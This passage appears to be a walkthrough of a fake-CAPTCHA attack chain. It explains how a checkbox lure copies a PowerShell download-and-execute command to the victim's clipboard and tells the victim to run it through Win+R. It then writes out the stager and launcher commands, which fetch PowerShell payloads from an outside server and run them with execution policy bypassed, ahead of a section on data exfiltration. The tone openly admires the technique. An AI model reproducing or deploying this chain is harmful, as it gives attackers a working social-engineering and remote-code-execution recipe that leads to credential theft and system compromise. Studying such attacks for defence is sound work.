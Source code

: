 ### `index.html` — Fake CAPTCHA & command copy

This is the initial lure, pretending to be a CAPTCHA:

1.  **Checkbox triggers a popup**, styled like a verification window
2.  **Clipboard hijack:** as soon as the user checks the box, it copies a live command:

```javascript
var maliciousCommand = "powershell -ExecutionPolicy Bypass -NoProfile -Command irm \'https://server.amtzespinosa.com/payload.html\' | iex";
```

3.  Fake instruction panel tells the user to press:

-   `Win + R`
-   `Ctrl + V`
-   `Enter`

**Goal:** Trick the user into pasting and executing the attack with zero downloads or security prompts. Smooth.

### `payload.html` — Stager

This `.html` is actually a **PowerShell stager** that is executed with the previous command.

```powershell
Invoke-WebRequest -Uri https://.../cloudflare.verification.txt -OutFile $env:USERPROFILE\Desktop\cloudflare.verification.ps1; powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\cloudflare.verification.ps1
```

It triggers a **chain reaction**:

-   Grabs the "master" script
-   Executes it

### `cloudflare.verification.txt` — Fork Launcher

This is the **execution orchestrator**. It downloads and forks three child payloads (`infoexfil.ps1`, `agent.ps1` and `persist.ps1`):

1.  **Each one is dropped:**

```powershell
Invoke-WebRequest -Uri https://server.amtzespinosa.com/payloads/<file>.ps1 -OutFile $env:USERPROFILE\Desktop\<file>.ps1
```

2.  **Then launched silently:**

```powershell
powershell -ExecutionPolicy Bypass -File $env:USERPROFILE\Desktop\<file>.ps1
```

What’s slick: No binary, no loader, no AV pop — it’s 100% PowerShell, executed inline.

### `infoexfil.ps1` — Recon & Exfil

1.  **Does (a very) basic fingerprinting:**
